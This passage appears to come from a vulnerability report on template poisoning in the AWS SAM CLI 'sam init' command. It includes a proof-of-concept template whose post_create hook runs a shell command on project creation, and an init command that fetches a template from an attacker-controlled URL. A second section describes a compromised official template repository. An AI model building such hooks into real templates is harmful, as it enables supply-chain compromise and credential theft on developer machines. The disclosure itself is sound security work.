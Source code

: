         Metadata:
          SamCliHook:
            post_create: "echo 'Malicious code executed' > /tmp/pwned_post_create_hook"

        Resources:
          HelloWorldFunction:
            Type: AWS::Serverless::Function
            Properties:
              Handler: HelloWorld::HelloWorld.Function::FunctionHandler
              Runtime: dotnet8
              CodeUri: s3://sam-cli-app-templates/patterns/hello-dotnet.zip
              MemorySize: 512
              Timeout: 30
        ```
        - **Host `malicious-template.zip` on a public GitHub repository or S3 bucket (e.g., `https://<attacker-controlled-domain>/malicious-template.zip`).**
    2. **Victim Action:**
        - **On a local machine with AWS SAM CLI installed, execute the command:**
        ```bash
        sam init --no-input --location https://<attacker-controlled-domain>/malicious-template.zip --name test-project
        ```
    3. **Verification:**
        - **Observe the victim's machine for signs of code execution.**
        - **Check if the file `/tmp/pwned_post_create_hook` is created.**
        ```bash
        ls /tmp/pwned_post_create_hook
        ```
        - If the file exists, the post-create hook, and thus malicious code, was executed.

### Vulnerability 2: Template Poisoning via Compromised Official Repository

* **Vulnerability Name:** Template Poisoning
* **Description:**
    1. An attacker gains write access to the official AWS SAM CLI Application Templates repository (e.g., through compromised credentials, exploiting a repository vulnerability, or insider threat).
    2. The attacker modifies template files within the repository. This involves injecting malicious code into template files (YAML/JSON, code files, scripts) or adding malicious scripts (e.g., post-generation hooks) to existing templates.
    3. The attacker commits and pushes these malicious changes to the repository, making the poisoned templates available to users.
    4. A developer, unaware of the compromise, uses `sam init` to create a new project. The developer might implicitly use a poisoned template by selecting a default template or explicitly choosing a template that has been compromised within the official repository.
    5. The `sam init` command fetches the template list and template files from the (now compromised) official repository.
    6. During project initialization, the malicious code embedded in the poisoned template is executed in the user's development environment. This execution can occur during template rendering, project build scripts, or post-generation actions initiated by `sam init` or subsequent build processes.
* **Impact:**
    Critical. Successful template poisoning can have widespread and severe consequences for users relying on official templates:
        - **Supply Chain Attack:** Compromises the trust in official AWS tooling and templates, affecting a broad range of developers.
        - **Credential Theft:** Malicious code can steal AWS credentials or other sensitive information from the user's development environment as described in Vulnerability 1.
        - **Remote Code Execution:** Attackers gain arbitrary code execution on developer machines, leading to system compromise, data breaches, or further supply chain propagation.
        - **Backdoor Installation:** Malicious templates can install persistent backdoors for long-term access to developer environments or deployed applications.
        - **Data Exfiltration:** Sensitive project data and environment information can be exfiltrated to attacker-controlled servers.
* **Vulnerability Rank:** Critical